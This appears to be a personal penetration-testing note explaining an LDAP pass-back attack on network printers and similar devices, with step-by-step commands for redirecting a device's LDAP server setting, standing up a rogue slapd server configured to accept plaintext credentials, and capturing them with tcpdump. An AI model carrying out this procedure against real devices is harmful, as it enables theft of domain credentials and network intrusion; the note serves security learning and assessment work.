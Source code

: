 
This is a common attack against network devices, such as printers, when you have gained initial access to the internal network, such as plugging in a rogue device in a boardroom.

[[LDAP]] Pass-back attacks can be performed when we gain access to a device's configuration where the [[LDAP]] parameters are specified. This can be, for example, the web interface of a network printer. Usually, the credentials for these interfaces are kept to the default ones, such as admin:admin or admin:password. 

Here, we won't be able to directly extract the LDAP credentials since the password is usually hidden. However, we can alter the LDAP configuration, such as the IP or hostname of the LDAP server. In an LDAP Pass-back attack, we can modify this IP to our IP and then test the LDAP configuration, which will force the device to attempt LDAP authentication to our rogue device. We can intercept this authentication attempt to recover the LDAP credentials.


# 📔 Description

- Change the LDAP IP configured in the device we have obtained access to, to our IP
- Host a listening server, you can use netcat on port 389 but if the device uses a more secure protocol you won't see the password in plaintext.
- If netcat can't be used, create your own LDAP listening server:

1. Run the command:

`sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
`
2. Configure slapd

`sudo dpkg-reconfigure -p low slapd
`
3. Configure the server mimicking the details as the real LDAP server
4. Ensure to have these details set:

	- MDB as database
	- Database not removed when purged
	- Move old database -> yes

5. Finally you need to make the server vulnerable to store passwords in plain text. Create a file name olcSaslSecProps.ldif with these details:

```
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

6. Run:

`sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
`
7. Reload the device settings page or test them and now capture the credentials with:

`sudo tcpdump -SX -i [name of interface] tcp port 389`



##  📗 Action to perform 

1. 


### Properties
---
📆 created   {{26-10-2023}} 19:42
🏷️ tags: #activedirectory  #enumeration 
---


